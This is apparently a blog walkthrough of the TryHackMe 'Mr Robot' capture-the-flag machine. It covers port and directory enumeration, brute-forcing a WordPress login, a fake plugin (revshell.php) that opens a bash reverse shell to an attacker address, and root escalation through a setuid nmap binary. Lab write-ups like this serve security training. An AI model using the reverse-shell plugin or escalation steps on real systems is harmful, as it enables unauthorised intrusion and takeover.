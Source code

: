 ```yaml
---
layout: post
title: TryHackMe Mr Robot's Walkthrough
date: 2020-05-22 07:30:29 +0530
categories: walkthroughs tryhackme
tags: robots wordpress revshell php nmap suid
permalink: /:categories/:title.html
---
```


# TryHackMe's Mr Robot Walkthrough

![Mr. Robot Banner](/assets/images/tryhackme/mrrobot/banner.png)

### Description

This Challenge is originally from vulnhub's Mr Robot VM challenge.Which is based on the theme of Mr Robot TV Series on USA Network.If haven't watch the series Please stop hacking and watch the show.This series have some serious drama, fun, and most importantly hacking tutorials.

But For this challenge, we basically have to find 3 keys in the box.You can find the key1 from viewing the robots.txt file.The box is running wordpress, so we have to exploit it for getting the reverse shell.Once we get the shell, we have to enumerate the user for key2.After that we have to use setuid binary to get the shell as root, then we get the key3.

## Key 1

### Nmap Scan

```nmap
nmap -sC -sV -Av -oN nmap/mrrobot 10.10.113.2
```

-sC - _run all the default scripts_  
-sV - _find the version of all the service running on the target_  
-A  - _run the scan in aggressive mode_  
-v  - _show output in verbose mode_  
-oN - _output to a file in nmap format_   

```nmap

# Nmap 7.80 scan initiated Sun May 17 00:16:52 2020 as: nmap -sC -sV -Av -oA nmap/mrrobot 10.10.113.2
Nmap scan report for 10.10.113.2
Host is up (0.20s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
|_SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 17 00:17:29 2020 -- 1 IP address (1 host up) scanned in 36.45 seconds

```

Above scan found 3 ports on the box but only 2 were open.Which is basically the webserver.SSH is closed.

### Web Analysis

If you go to the home page of the website then there is some booting animation and after there is lot of option in the terminal prompt.

![home](/assets/images/tryhackme/mrrobot/home.png)

Its a safe practice to always checkout for common files on the website.Nmap scan doesn't find the robots.txt file but if you go there then there is name of first key file and a dictionary/wordlist file.

![Robots](/assets/images/tryhackme/mrrobot/robots.png)

Download both the files, you get your first key on the box.

## Key 2

After checking for common files name run the gobuster on the website because you can't know all the files.

### Gobuster

```gobuster
gobuster -u http://10.10.113.2/ -w /usr/share/wordlist/dirbuster/directory-2.3.medium.txt -o gobuster/mrrobot
```

```gobuster
/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 301)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 301)
/page1 (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
```

From the output of the gobuster it looks like its a wordpress site.Therefore lets go to /dashboard.It directs us to the login page.

### WPScan 

Now for we need to bruteforce the login page.By the dictionary file we got on robots.txt.

Extract the names from that dictionary file into users.txt and intercept the request to burpsuite and load the users.txt file as payload list.Run the attack ...

![Username](/assets/images/tryhackme/mrrobot/username.png)

If we got the different response length then thats the valid username.You can check that by trying on the login page.

But for the password we have very long dictionary file which takes ages to bruteforce in burpsuite.So we have to run WPscan on the login page.We can also reduce the bruteforce time by just sorting the dictionary file with unique lines and word greater than 8 character.

![WP Scan](/assets/images/tryhackme/mrrobot/creds.png)

Login with the creds.Once we get on the dashboard install a plugin by uploading revshell zip file.

revshell.php

```php

<?php
/**
 * Plugin Name: RevShell
 * Version: 5.10.3
 * Author: Vinay Verma
 * Author URI: http://devshmsec.github.io/
 * License: MIT
 */

exec('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1')

?>
```

Zip the above file, upload and then install it.Listen on the port and get the shell.

![RevShell](/assets/images/tryhackme/mrrobot/revshell.png)

### User Enumeration

If you go to the /home/robot/ there is the second key but you can't read it because you are not the robot user.There is also a md5 hash of the robot's password.Crack it and get the shell as robot user.After that you can read the key file.

![user enum](/assets/images/tryhackme/mrrobot/user.png)

## Key 3

### Linpeas

For gaining the root privledge we should run the linpeas.sh to checkout any known vulnerability on the box that is exploitable.

![linpeas](/assets/images/tryhackme/mrrobot/linpeas.png)

### Root Enumeration

By ruunning the linpeas we found that there is a nmap executable binary which has setuid bit.So we can get the effective privledge as root.

exploit.sh

```bash
nmap --interactive
nmap> !sh
```

We get the shell as root.Now we can read the third key in /root directory.

![root](/assets/images/tryhackme/mrrobot/root.png)

Thanks for reading this walkthrough, If you like it please share it on twitter, reddit or in linkedin.
